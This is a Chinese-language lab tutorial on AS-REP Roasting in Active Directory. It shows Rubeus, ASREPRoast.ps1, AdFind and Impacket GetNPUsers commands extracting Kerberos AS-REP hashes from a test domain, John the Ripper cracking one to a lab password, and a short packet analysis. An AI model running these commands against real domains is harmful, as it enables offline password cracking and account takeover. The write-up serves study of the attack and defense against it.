

AS-REP Roasting是一种对用户账户进行离线爆破的攻击方式，但是需要手动设置成“不要求Kerberos预身份验证”。

当开启该选项后，攻击者向域控Kerberos 88端口发起请求，服务器不会进行任何验证就把TGT和该用户Hash加密的Login Session Key返回，接着攻击者就可以离线破解，前提是字典足够强大。

# 一、AS-REP Roasting 攻击过程
## 1、配置用户test1
首先配置用户test1为“不要求Kerberos预身份验证”


## 2、Rubes
找一台域内机器，且能和KDC 88端口进行通信

```plain
PS C:\Users\test1\Desktop> .\Rubeus.exe asreproast /format:john /outfile:hash.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: AS-REP roasting

[*] Target Domain          : sec.com

[*] Searching path 'LDAP://DC1.sec.com/DC=sec,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : test1
[*] DistinguishedName      : CN=test1,CN=Users,DC=sec,DC=com
[*] Using domain controller: DC1.sec.com (192.168.30.2)
[*] Building AS-REQ (w/o preauth) for: 'sec.com\test1'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\test1\Desktop\hash.txt

[*] Roasted hashes written to : C:\Users\test1\Desktop\hash.txt
PS C:\Users\test1\Desktop> type .\hash.txt
$krb5asrep$test1@sec.com:D495E4172BDD582059FC5C8185D0B8C4$FB829A6AD55AEDF6B4EA2630B80832345C3E54641B388F576DC978F94AA0ECD70F79F143A1B437D0E978206BFFF17BC089D59A574DE9A8B879BC4BBFF8E0A2B63092D9B82A2D4C2560B8EBDC95BC941EB1D59E9734E003F42C0ED4A437FF7E6E4CF7ECB8D57FB81287416C35E125015AB4AC2F6C3E08DCDD37E6CC0BD6B395A90988ADFFBC383C38C86651FCD77B0C3BB33C1E988E327956724B3B840604D2BC5BB32CC26395E8611484ECF335ABF6BBEC865F65339E4257874F05283F3D508F5515EE239378563E2EC84ED2AF4D1335B71259B99C2FE21A65D2459E20F2A4E7977C
PS C:\Users\test1\Desktop>
```

## 3、ASREPRoast.ps1
```plain
PS C:\Users\test1\Desktop> Import-Module .\ASREPRoast.ps1
PS C:\Users\test1\Desktop> Invoke-ASREPRoast | select -ExpandProperty Hash
$krb5asrep$test1@sec.com:5953af1d804c8b0b9bdd476d1a90258d$2edaf612186ce547d414d8b5dd5b3a4012287ba0036f01983dea4111263b64ee4443e1f163ee26d8f2f6a639ff344b6fbf1af6e1d672a1fe19c5f0251ecac244269cfe715d84a5555174046e2205d87175c242f9fa761fd02255b75d7b6012edafc5a4359b0626cbbc4ac655fbb75d8024185b2267e1a8e564de5bb39e29e9f755628a64067a7e72b1ac5940ef67c8fac777d0d954c71b628ec7f334abd681942ce6b9c991269d0143ef25832bd07d45c26bab1e0add45461c80942a7768fd54826dadf541bc5fb4158d1cf735dd7cdb2d21d642a968613cb93ef1fa38be5c43e2c4
```

## 4、非域内机器
使用ADfind查找符合条件的用户

```plain
(base) PS C:\Security\github\AdFind> .\AdFind.exe -h 192.168.30.2 -u sec\test2 -up Az123456@ -f "useraccountcontrol:1.2.840.113556.1.4.803:=4194304" -dn

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: DC1.sec.com:389
Directory: Windows Server 2019
Base DN: DC=sec,DC=com

dn:CN=test1,CN=Users,DC=sec,DC=com

1 Objects returned
(base) PS C:\Security\github\AdFind>
```

使用Impacket下的GetNPUsers.py

```plain
C:\root> impacket-GetNPUsers -dc-ip 192.168.30.2 -usersfile users1.txt -format john sec.com/
Impacket v0.11.0 - Copyright 2023 Fortra

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:163: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$test1@SEC.COM:d79efdd2f5707e9ed01f2819e6a49c25$47371204b9c2f0826ef5d29706a0658efd5b9b80edb7de6f0f779b3f08f55afa7be0829454cc20d9b724ba6f466ad8680eeac03033a89ad43d92ed8c0725379347cb1ae6d155810f9b3b07ab6a90a4d7d4d9f725ec77c4b6d45da4b749e12ee3e540ca8cf2cd7094b03bc232553a089a3170e4d16ee4ede8178569c563ca6fd6d652ac0016002b76c75b0831a01c11b4b17703c424ba93803b2970530e80d48cb863e717a23342d7bf93357924c5541087d1a0d6b2e0d20b988d9660005a6d9966dd5f86a2e13c062214fb0d4ef12bf086ce0f6746b526d49c246f34d0c82a32fecd

C:\root>
```

## 5、爆破Hash
```plain
C:\root> john --wordlist=pass.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 6 candidates left, minimum 32 needed for performance.
Az123456@        ($krb5asrep$test1@SEC.COM)
1g 0:00:00:00 DONE (2024-08-21 11:33) 100.0g/s 600.0p/s 600.0c/s 600.0C/s 123..Oyama28567@
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

C:\root>
```

# 二、AS-REP Roasting抓包分析
请求包以用户test1发起请求，可以看到故意没有设置pA-ENC-TIMESTAMP


响应包直接返回了TGT以及用户test1 Hash加密的Login Session Key

